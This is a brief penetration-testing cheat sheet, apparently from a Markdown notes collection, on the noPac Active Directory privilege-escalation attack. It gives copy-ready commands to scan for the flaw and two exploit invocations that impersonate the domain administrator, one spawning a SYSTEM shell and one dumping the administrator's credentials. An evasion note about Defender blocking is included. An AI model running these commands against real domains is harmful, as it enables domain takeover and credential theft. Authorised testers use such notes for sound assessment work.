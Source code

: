 ```yaml
---
tags:
  - Authenticated
  - Domain-Admin
  - Lateral-Movement
  - Local
  - Privilege-Escalation
  - AD
---
```

[https://github.com/Ridter/noPac.git](https://github.com/Ridter/noPac.git)
## Identify
---
```PowerShell
sudo python3 scanner.py domain.local/user:'password' -dc-ip <DCIP> -use-ldap
```
nxc:
```bash
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

## Exploit
---
```PowerShell
sudo python3 noPac.py DOMAIN.LOCAL/user:'pass' -dc-ip <dcip>  -dc-host DC01 -shell --impersonate administrator -use-ldap
```
```PowerShell
sudo python3 noPac.py DOMAIN.LOCAL/user:'pass' -dc-ip <dcip>  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user DOMAIN/administrator
```

!!! alert "OPSEC: will spawn a SYSTEM shell with smbsexec - shell may establish but defender will likely block further execution."